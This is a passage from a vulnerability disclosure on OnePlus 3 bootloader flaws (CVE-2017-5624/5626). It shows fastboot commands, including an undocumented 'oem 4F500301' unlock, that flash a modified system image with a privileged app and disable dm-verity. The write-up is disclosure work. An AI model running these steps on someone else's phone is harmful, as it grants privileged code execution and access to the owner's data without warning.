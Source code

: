 The `androidboot.enable_dm_verity` kernel command line argument propagates to the `ro.boot.enable_dm_verity` which later instructs OnePlus's `init` whether or not to disable `dm-verity`:

![DM-Verity command line build-up](/images/opo3_init-dm_verity_disable.png)

### Combining the 2 Vulnerabilities ###

The couple of vulnerabilities can be combined together for code execution with privileged SELinux domains, without any warning to the user and with access to the original user data. In order to demonstrate this (and there are probably thousands of better ways with a higher severity), I've modified the system partition, adding a privileged app. This can be done by placing an APK under `/system/priv-app/<APK_DIR>` which will eventually cause it to be added to the [priv_app domain](https://android.googlesource.com/platform/system/sepolicy/+/android-7.1.1_r16/priv_app.te).

```c
λ fastboot flash system system-modded.simg
target reported max download size of 440401920 bytes
erasing 'system'...
FAILED (remote: Partition erase is not allowed)
finished. total time: 0.014s

λ fastboot oem 4F500301
OKAY
[  0.020s] finished. total time: 0.021s

λ fastboot flash system system-modded.simg
target reported max download size of 440401920 bytes erasing 'system'...
OKAY [  0.010s]
...
sending sparse 'system' 7/7 (268486 KB)...
OKAY [  6.748s]
writing 'system' 7/7...
OKAY [  3.291s]
finished. total time: 122.675s

λ fastboot oem disable_dm_verity
...
OKAY

[  0.034s] finished. total time: 0.036s
```


[ro.boot.enable_dm_verity]: [0]
[CVE-2017-5624]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5624 "CVE-2017-5624"
[CVE-2017-5626]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5626 "CVE-2017-5626"